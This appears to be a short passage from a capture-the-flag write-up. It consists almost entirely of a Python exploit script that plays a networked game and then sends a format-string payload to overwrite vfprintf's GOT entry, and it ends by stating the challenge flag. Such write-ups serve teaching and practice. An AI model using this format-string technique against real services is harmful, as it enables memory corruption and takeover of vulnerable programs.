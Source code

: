 ```python
# receive banner
print s.recv(1024)
sleep(0.01)

# send string format name
cmd ="%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%34719c%36$hn%32836c%37$n"

s.send(cmd+"\n")

# try to beat the game
while 1:
	sleep(0.01)

	data = s.recv(1024)

	print data
	
	# proper responses
	if "LEVEL" in data:
		cmd = "h\n"
	if "exhausted" in data:
		cmd = "p\n"
	if "flex" in data:
		cmd = "h\n"
	if "tense" in data:
		cmd = "r\n"
		
	# we've won; update name to activate string format bug
	if "again" in data:
		# 0x804a138: vfprintf@got.plt
		# we overwrite it in two parts, the first uses %hn to write two bytes to the lower part of the address
		# the second %n overwrites four bytes, but I don't really care.
		# the rest of the string format bug is: "%34719c%36$hn%32836c%37$n"
		cmd = "ya0AAAAAAAAAAAAAAAAAAAAAAA" + struct.pack("<L", 0x804a138) + struct.pack("<L", 0x804a13a) + "\n"
	
	# flag is in the input, so halt execution & take note of it!
	if "9447" in data:
		raw_input()
		
	# game expects input, so send it
	if ">" in data:
		if cmd:
			s.send(cmd)
			cmd = ""
s.close()
```

The real flag was something like `9447{YOHOHO_A_PIRATES_LIFE_FOR_ME}`. 
